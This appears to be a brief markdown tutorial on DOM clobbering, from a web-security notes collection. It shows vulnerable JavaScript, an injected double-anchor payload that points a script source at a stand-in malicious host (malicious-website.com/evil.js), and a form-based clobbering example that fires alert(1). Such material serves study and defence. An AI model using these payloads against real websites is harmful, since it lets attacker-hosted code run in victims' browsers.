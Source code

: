 # DOM clobbering

DOM clobbering is a web security vulnerability that occurs when an attacker manipulates a webpage's Document Object Model (DOM) by injecting malicious data into the global scope of a web page, effectively overwriting or "clobbering" important JavaScript variables and objects. This can lead to unexpected behavior or the execution of unintended code, potentially enabling various types of attacks, including cross-site scripting (XSS). To mitigate DOM clobbering, developers should carefully control the scope of their variables and avoid exposing sensitive data to the global scope.

## Exploit

```js
var someObject = window.someObject || {};
```

If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor. Consider the following code:

```js
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```

### Double a technique

To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:

```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```

As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script.

To resume:

if u want to modifie the value of a `window.something.var`, you need to inject double `<a id=something><a id=something>` with the same id, and the second `<a>` should have the attribute `name=var` and `href=var_value`. So next time `window.something.var` is call, it return : `{var: "var_value"}`.

### Form technique

Another common technique is to use a form element along with an element such as input to clobber DOM properties.

```html
<form onclick=alert(1)><input id=attributes>Click me
```

---

[**:arrow_right_hook: Back home**](/README.md)